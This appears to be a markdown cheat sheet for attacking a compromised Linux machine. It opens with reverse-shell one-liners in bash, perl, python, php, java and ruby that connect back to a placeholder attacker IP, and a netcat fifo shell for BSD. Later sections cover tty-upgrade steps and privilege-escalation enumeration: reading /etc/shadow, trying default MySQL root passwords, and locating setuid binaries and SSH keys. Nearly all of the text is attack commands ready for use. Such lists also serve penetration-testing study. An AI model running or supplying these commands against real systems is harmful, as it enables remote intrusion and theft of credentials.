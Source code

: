 ## getting a reverse shell:-
Try using netcat as follows:-
1. on your attacker machine set up a listener by:- nc -lvp "port"
2. on the compromised machine connect with the listener and spawn by:- shell nc -e /bin/bash "attacking machine IP" "port"

If netcat doesnt work then use netcat to set up listener in the attacker machine via netcat and use the following to get a reverse shell back
/bin/bash -i >& /dev/tcp/IP/PORT 0>&1 (via bash)<br />
or<br />
perl -e 'use Socket;$i="IP";$p="PORT";socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/bash -i");};' (via perl)<br />
or<br />
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);' (via python) <br />
or<br />
php -r '$sock=fsockopen("IP",PORT);exec("/bin/bash -i <&3 >&3 2>&3");' (via php)<br />
or<br />
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/IP/PORT;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor() (via java)<br />
or<br />
ruby -rsocket -e'f=TCPSocket.open("IP",PORT).to_i;exec sprintf("/bin/bash -i <&%d >&%d 2>&%d",f,f,f)' (via ruby)

## getting a tty shell:-
python -c ‘import pty; pty.spawn("/bin/bash")’<br />
or<br />
python3 -c ‘import pty; pty.spawn("/bin/bash")’<br />
or<br />
python -c ‘import pty; pty.spawn("/bin/sh")’<br />
or<br />
python3 -c ‘import pty; pty.spawn("/bin/bash")’<br />
or<br />
SHELL="/bin/bash" script -q /dev/null<br />

## getting a colored tty shell (after getting a tty shell):- 
#### *do this in your host machine because u need the length and breadth of the window of ur terminal*

stty -a <br />
#### *then do the following in the victim shell*<br />
export SHELL=/bin/bash<br />
export TERM=xterm256-color<br />
stty rows "rows u found in step1" columns "columns u found in step1"<br />

## Making the shell interactive:-

stty raw -echo

## the obvious stuff:-

history (to check the bash history)<br />
whoami (to check the current user)<br />
id <br />
hostname<br />
cat /etc/passwd<br />
sudo -l (to list all perms of the user)<br />
sudo --version (to check the version and see if it is vulnerable to any exploit)<br />

## about system and processes running:-

uname -a (to get the version of the kernel)<br />
cat /etc/shells 2>/dev/null (list available shells)<br />
ps aux 2>/dev/null<br />
find /etc/init.d/ \! -uid 0 -type f 2>/dev/null |xargs -r ls -la 2>/dev/null (init.d files not belonging to root)<br />
find /lib/systemd/ \! -uid 0 -type f 2>/dev/null |xargs -r ls -la 2>/dev/null (systemd files not belonging to root)<br />
mysql --version 2>/dev/null (to check the version of mysql if installed to check for any known vulnerabilities)<br />
mysqladmin -uroot -proot version 2>/dev/null (to check if default creds work)<br />
mysqladmin -uroot version 2>/dev/null (to check if no pass works)<br />
psql -V 2>/dev/null (to check the version of postgresql if installed to check for any known vulnerabilities)<br />

## about users:-

cat /etc/passwd 2>/dev/null<br />
lastlog (to get last login details of all user accounts)<br />
w (to check if any other user is currently logged on)<br />
cat /etc/group (to see if any user is part of other groups)<br />
cat /etc/shadow (if we r in the root or shadow group)<br />
cat /etc/master.passwd (same as /etc/shadow but for bsd)<br />
find /home -name .sudo_as_admin_successful 2>/dev/null (find who has sudoed earlier)<br />

## then find files owned by the user/group/root via the following:-

ls -l<br />
find / -user "username/root" -group "groupname" exec ls -lb 2>/dev/null<br />
locate "groupname"(sometimes can result in filenames having the groupname in it.....MIGHT BE INTERESTING!!)<br />

## then find files not owned by the user/group/root but have rights via the following:-

find / -readable ! -user "user" -type f ! -path "/proc/*" ! -path "/sys/*" 2>/dev/null (read rights)<br />
find / -writable ! -user "user" -type f ! -path "/proc/*" ! -path "/sys/*" 2>/dev/null (write rights)<br />
find / -executable ! -user "user" -type f ! -path "/proc/*" ! -path "/sys/*" 2>/dev/null (executable rights)<br />
find / -user root -perm -4000 2>/dev/null (for getting setuid files)<br />
find / -user root -perm -2000 2>/dev/null (for getting all setgid files)<br />
find / \( -name "id_dsa*" -o -name "id_rsa*" -o -name "known_hosts" -o -name "authorized_hosts" -o -name "authorized_keys" \) 2>/dev/null  (to get ssh info)<br />

## To download something from the internet or from intranet:-

Can do a wget or curl

## To get a netcat shell in bsd if -e flag is missing

mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc ip port > /tmp/f

## To locate a file 

locate <file_name>

